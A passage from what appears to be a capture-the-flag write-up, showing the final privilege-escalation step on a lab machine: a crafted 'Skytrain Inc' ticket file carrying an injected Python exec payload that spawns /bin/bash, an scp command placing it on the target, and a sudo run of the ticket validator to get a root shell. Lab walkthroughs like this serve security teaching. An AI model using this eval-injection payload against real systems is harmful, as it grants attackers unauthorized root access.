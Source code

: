 We got code execution, all we need to do now is edit the ticket a little to give us a root shell and transfer it to the remote box.

```text
# Skytrain Inc
## Ticket to Root Shell
__Ticket Code:__
**4+exec('import os; os.system("/bin/bash")')
```

```bash
scp poc.md development@10.10.11.100:/dev/shm/root.md
```


Now we just execute the script on the remote machine with sudo.

```bash
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

![root](./img/root.png)